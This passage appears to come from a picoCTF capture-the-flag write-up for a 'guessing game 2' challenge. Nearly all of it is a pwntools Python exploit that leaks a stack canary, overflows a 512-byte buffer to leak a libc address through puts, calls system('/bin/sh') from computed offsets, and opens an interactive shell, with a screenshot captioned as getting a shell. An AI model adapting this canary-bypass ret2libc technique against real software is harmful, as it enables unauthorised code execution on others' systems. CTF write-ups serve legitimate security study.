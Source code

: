 ```python
canary = int(p.recv(10), 16)
log.info(hex(canary))

payload_1 = "a"*512
payload_1 += p32(canary)
payload_1 += "a"*12
payload_1 += p32(puts_plt)
payload_1 += p32(win_addr)
payload_1 += p32(puts_got_plt)
p.recvuntil("What number would you like to guess?\n")
p.sendline(str(bypass_rand).encode("ascii"))
p.recvuntil("Name? ")
p.sendline(payload_1)
s = p.recvline()
s = p.recvline()
s = p.recv(4)
puts_libc = 0
count = 0

for i in s:
    puts_libc += ord(i) << count
    count += 8
log.info(hex(puts_libc))

puts_offset = 0x00067560
sys_offset = 0x0003cf10
binsh_offset = 0x17b9db

base_addr = puts_libc - puts_offset
puts_real = base_addr + puts_offset
sys_real = base_addr + sys_offset
binsh_real = base_addr + binsh_offset

payload_2 = "a"*512
payload_2 += p32(canary)
payload_2 += "a"*12
payload_2 += p32(sys_real)
payload_2 += "aaaa" 
payload_2 += p32(binsh_real)
p.recvuntil("Name? ")
p.sendline(payload_2)

p.interactive()
```

## Result

![img](/picoCTF/guessing_game_2/assets/get_shell.png)

